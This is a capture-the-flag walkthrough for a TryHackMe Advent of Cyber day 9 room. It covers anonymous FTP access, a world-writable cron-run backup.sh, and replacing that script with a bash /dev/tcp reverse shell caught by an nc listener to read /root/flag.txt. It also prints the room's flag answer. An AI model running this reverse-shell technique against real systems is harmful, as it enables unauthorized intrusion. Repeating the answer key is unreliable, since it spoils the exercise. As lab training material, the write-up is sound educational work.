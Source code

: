 # Advent of cyber 2 | day 9 | Anyone can be Santa!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.91.82` it'll probably be diffrent for you.

## Question #1
*Name the directory on the FTP server that has data accessible by the "anonymous" user*

Just connecting to the FTP server with the username: `anonymous` grants us access
```bash
ftp 10.10.91.82
```

running `ls` we get this:

![FTP file listing](./images/ftp_ls.png)

as we can see everyone can access `public` indicated by `drwxrwxrwx` premmitons, so that's our answer: `public`

## Question #2
*What script gets executed within this directory?*

As we can see there are 4 directories:
- backups
- elf_workshops
- human_resources
- public

However other then `public` all other directories are empty (We can see that with the `ls` and seeing the size of the dirctories)

Hoping into public with `cd public`:

![contents of public directory](./images/content_of_public.png)

We see 2 files
- backup.sh
- shoppinglist.txt

`backup.sh` is a shell script so that's our answer.

## Question #3
*What movie did Santa have on his Christmas shopping list?*

We can get both files using
```bash 
get backup.sh
get shoppinglist.txt
```
Inside the public directory

the contents of `shoppinglist.txt` are:
```
The Polar Express Movie
```
So the answer is `The Polar Express`


## Question #4
*Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!*

The contents of `backup.sh` are:
```bash 
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```
Because we know this scriping is running every minute we can replace it contents with a reverse shell

I am going to use the reserve shell they showed above
```bash
bash -i >& /dev/tcp/{my_ip}/{port_to_connetct to} 0>&1 
```
We can get our IP with:
```bash
ip a s tun0
```
- Note: `ip a s tun0` is `ip adress show tun0`

![My IP](./images/my_ip.png)

So for me it's gonna look like this
```bash
bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

Not forgeting to add the shabang line on top: `#!/bin/bash`

So I made a copy of backup.sh with the contents of:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

And now I am going to open a listener on port `9001` with this:
```bash
nc -lnvp 9001
```

And reuplod `backup.sh` with my changes and wait for a connetion

And after a minute or so, Jackpot we're in :P

![jackpot](./images/jackpot.png)

And so we can get `/root/flag.txt`

![Flag](./images/flag.png)

So our answer is of course:
```
THM{even_you_can_be_santa}
```

